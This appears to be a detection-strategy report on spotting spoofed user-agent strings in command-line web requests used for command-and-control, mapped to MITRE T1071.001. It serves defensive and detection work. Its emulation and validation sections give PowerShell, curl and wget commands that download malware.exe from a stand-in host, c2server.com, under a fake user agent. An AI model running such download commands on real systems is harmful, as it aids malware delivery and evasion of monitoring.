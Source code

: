 # Alerting & Detection Strategy (ADS) Report

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring by using malicious user agents in command-line operations across various platforms. The primary focus is on identifying and mitigating threats where adversaries use altered or custom user agent strings to obfuscate their activities during Command and Control (C2) communications.

## Categorization
- **MITRE ATT&CK Mapping:** T1071.001 - Web Protocols
- **Tactic / Kill Chain Phases:** Command and Control
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1071/001)

## Strategy Abstract
The detection strategy involves monitoring command-line activity for the use of malicious or suspicious user agent strings. Key data sources include logs from shell environments (such as PowerShell on Windows and Bash on Linux/macOS) and network traffic logs that capture HTTP requests with unusual user-agent headers. The analysis focuses on identifying patterns where these user agents are used in conjunction with known C2 protocols or IP addresses.

## Technical Context
Adversaries often modify user agent strings to disguise the origin of their commands, making them appear as legitimate web browsers or benign applications. This can complicate detection by security tools that rely on recognizing standard application identifiers. In practice, adversaries execute this technique using scripts or manual command inputs across different platforms:

- **Windows:** PowerShell and CMD are commonly manipulated for this purpose.
- **Linux/macOS:** Bash and other shell environments are targets.

Adversary emulation might involve crafting commands like:
```powershell
Invoke-WebRequest -UserAgent "MaliciousAgent/1.0" http://c2server.com/malware.exe
```
or in CMD:
```cmd
curl -A "MaliciousAgent/1.0" http://c2server.com/malware.exe
```

## Blind Spots and Assumptions
- **Blind Spots:**
  - Encrypted traffic that cannot be inspected for user agent strings.
  - Legitimate applications that dynamically change their user-agent strings.

- **Assumptions:**
  - User agents are a reliable indicator of malicious activity, which may not always hold true if legitimate software changes its agent string.
  - Complete logging and capture of command-line executions across all platforms are assumed to be in place.

## False Positives
Potential benign activities include:
- Web scraping tools or bots that use custom user agents for identification.
- Development environments where developers manually set user-agent strings during testing.
- Legitimate services using non-standard user agent formats for proprietary purposes.

## Priority
**Severity:** High

**Justification:** The ability of adversaries to bypass security monitoring through altered user agents poses a significant threat, especially in environments with heavy web traffic. Early detection and mitigation are crucial to prevent further compromise.

## Validation (Adversary Emulation)
### Malicious User Agents - Powershell
1. Open PowerShell as an administrator.
2. Execute: 
   ```powershell
   Invoke-WebRequest -UserAgent "MaliciousAgent/1.0" http://c2server.com/malware.exe
   ```

### Malicious User Agents - CMD
1. Open Command Prompt.
2. Execute:
   ```cmd
   curl -A "MaliciousAgent/1.0" http://c2server.com/malware.exe
   ```

### Malicious User Agents - Nix (Bash)
1. Open Terminal on macOS/Linux.
2. Execute:
   ```bash
   wget --user-agent="MaliciousAgent/1.0" http://c2server.com/malware.exe
   ```

## Response
When an alert is triggered, analysts should:
- Verify the legitimacy of the user agent string and associated activities.
- Examine network traffic logs for unusual patterns or connections to known malicious IP addresses.
- Isolate affected systems to prevent further spread of potential malware.
- Update detection rules to account for new variations in user-agent strings.

## Additional Resources
- **Read Contents From Stdin Via Cmd.EXE:** Understanding how adversaries leverage command-line tools can provide insights into their tactics and improve detection strategies.